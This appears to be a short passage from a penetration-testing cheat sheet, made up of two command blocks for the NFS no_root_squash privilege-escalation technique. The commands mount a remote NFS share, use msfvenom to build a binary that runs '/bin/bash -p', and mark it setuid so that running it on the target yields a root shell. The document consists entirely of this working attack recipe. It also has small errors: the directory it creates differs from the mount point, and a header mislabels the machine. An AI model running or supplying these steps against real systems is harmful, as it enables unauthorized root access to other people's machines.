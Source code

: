 ### **Ona kali**
```console
sudo su
mkdir /tmp/nf
mount -o rw,vers=2 {LHOST}:/tmp /tmp/nfs
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
chmod +xs /tmp/nfs/shell.elf
```
### **On attacking machine**
```console
/tmp/shell.elf
```
